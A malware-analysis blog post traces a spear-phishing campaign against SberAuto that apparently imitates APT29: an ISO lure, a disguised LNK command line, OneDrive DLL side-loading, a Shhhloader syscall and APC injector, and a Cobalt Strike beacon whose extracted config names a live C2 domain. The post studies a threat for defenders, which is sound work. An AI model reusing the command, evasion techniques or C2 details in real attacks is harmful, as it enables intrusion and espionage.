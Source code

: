 +++
date = "2023-01-01"
title = "The curious case of SberAuto spear-phishing campaign"
slug = "the-curious-case-of-sberauto-spear-phishing-campaign"
+++



### Summary
On December 19, 2022 malware researcher known as **StopMalvertisin** twitted about a possible APT29 attack.

![Alt text](image-0.png)

The spear-phishing campaign targets **SberAuto**, a Russian online car trading platform associated with the state-owned banking and financial services company **Sberbank**.  
The analyzed attack displayed similar **TTPs** commonly attributed to **APT29** (aka **Cozy Bear**), even though it is unclear why a Russian-backed hacking group should be targeting a domestic web service.


## Technical Analysis
### Initial Stage
The first stage of this attack is represented by an **ISO** file (0b32bd907072d95223e5eb2dc5e3d9e0) named "Алкоголь_2023_zip.iso", uploaded on VirusTotal from Russia on December 19, 2022 and potentially delivered as an email attachment.

![Alt text](image-1.png) 

The archive content closely resembles the one of previous APT29 campaigns.   

![Alt text](image-2.png)


The only folder visible item is a shortcut file disguised as "Алкоголь_2023.pdf". 

```cmd
%windir%/system32/cmd.exe /c start update.exe & "%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe" %cd%/alcohol.pdf
```

Once clicked on the **LNK** file, **update.exe** is firstly executed, followed by the lure PDF document called "alcohol.pdf", which displays the alcohol catalog from the Russian market chain called **Globus Gourmet**.   

![Alt text](image-3.png)

The files "thumbcache.dll" and "update.exe" are actually two legit *signed binaries* of **Microsoft OneDrive**: the latter exploits Windows **search order hijacking** to load the malicious DLL named "version.dll," which has been modified by the threat actor to load an encrypted payload file.

![Alt text](image-4.png)


### Second stage: version.dll
The dynamic-linked library "version.dll" is a 64-bit DLL which is side-loaded by the legit Microsoft OneDrive binary.  
The *compile-timestamp* shows **Sunday, December 18 2022**. 

![Alt text](image-5.png)

The binary first employs ```GetComputerNameExA``` API function to retrieve the hostname of the infected machine and check whether it is equal to ```corp.sberauto[.]com```, an online russian service facilitating car sales website.
If the hostname does not match, the program terminates.

![Alt text](image-7.png)

After that, the malicious DLL iterates through the running processes using ```Process32Next``` to find the ID of **explorer.exe** and obtain its process handle.

![Alt text](image-8.png)

It then creates a *suspended-process* called **RuntimeBroker.exe** using ```CreateProcessA``` and sets "explorer.exe" as the parent process via ```UpdateProcThreadAttribute``` API.

The attribute parameter with the value 0x20007 corresponds to the definition of **PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY**, while the value ```0x100000000000``` corresponds to **PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON**: it is typical for **CobaltStrike** to use CreateProcess API call along with a **STARTUPINFOEX** structure containing this mitigation policy to block DLLs that are not signed by Microsoft.

![Alt text](image-9.png)


Finally, the DLL decrypts the shellcode into "RuntimeBroker.exe" through ```NtAllocateVirtualMemory``` and ```NtWriteVirtualMemory```, sets it to an executable **APC routine** and run it via the ```NtAlertResumeThread```.
All this function API calls are done directly via **syscall** to hinder analysis. 

![Alt text](image-10.png)

The presence of specific debug strings shows that the program was created with **Shhhloader** framework, a "shellcode loader that takes raw shellcode as input and compiles a C++ stub that does a bunch of different things to try and bypass AV/EDR".  

![Alt text](image-11.png)


### Final stage: Cobalt Strike payload
The APC inject shellcode represents a **Cobalt Strike backdoor**, as evidenced by the multiple signature matches of the THOR APT Scanner.  
Firstly, the shellcode finds the "MZ" and "PE" header in the memory.

![Alt text](image-12.png)

Then it links the following Windows API function at **runtime** by parsing **PEB_LDR_DATA** to avoid detection:
* GetProcAddress
* GetModuleHandleW
* LoadLibraryW
* VirtualAlloc
* VirtualProtect

![Alt text](image-13.png)

![Alt text](image-14.png)

After allocating a **RWX** protected memory portion, it injects the shellcode into "RuntimeBroker.exe" process by calling once again the same initial entry function.

![Alt text](image-15.png)

 To extract the C2 configuration of **Cobalt Strike beacon**, SentinelOne CobaltStrikeParser Python script comes in handy. 

 ```bash
 python parse_beacon_config.py --json version.dll
 ```

```json
{
  "BeaconType": [
    "HTTPS"
  ],
  "Port": 443,
  "SleepTime": 46000,
  "MaxGetSize": 1398924,
  "Jitter": 32,
  "MaxDNS": "Not Found",
  "PublicKey": "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCSrC60Ubq+U90iLmHldoLVFW6Bc7vLsQ12BXGcc2c8TQJbnaf8I9dm/dhdZPEoCwQKRbjD/2xlR4Vr/S7IGj1Sh8gKHfJXh96lIhR5W85/+Fdi0weqGbrx9mbu70Ir7bA0ar1vwK17RFIla7B24ffVWNTfsO4fuagDSmR6MSKK2wIDAQABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA==",
  "PublicKey_MD5": "ad07d632e310a66efeb503ee9089ad64",
  "C2Server": "adblockext.ru,/functionalStatus/hw7s8TE4f9GtrBHb8iiFT7RyIAuN",
  "UserAgent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4433.0 Safari/537.36",
  "HttpPostUri": "/rest/2/meetingsfR4TG1Qpai0Oa1Q5fNxdUoAAfFn1"
}
```

The Cobalt Strike beacon uses **Base64 scheme** to communicates with the C2 domain ```adblockext[.]ru``` over **HTTPS**.


## Conclusion
The analyzed sample looks interesting because a Russian state-sponsored hacking group targeting a domestic website is *highly unlikely*, and generates suspicion.
Cozy Bear has been always implicated in various cyber espionage activities targeting *foreign entities*, including governments, organizations, and think tanks.

In conclusion, the similarities with previous APT29 campaigns (i.e., the use of ISO files containing binaries vulnerable to DLL hijacking) may then lead to a couple of hypotheses about what this campaign could be:
* An internal Red Teaming exercise, aimed at enhancing cybersecurity measures inside SberAuto employees;
* An attack orchestrated by Ukrainian groups (particularly, the IT Army of Ukraine), trying to simulate Cozy Bear TTPs.  






























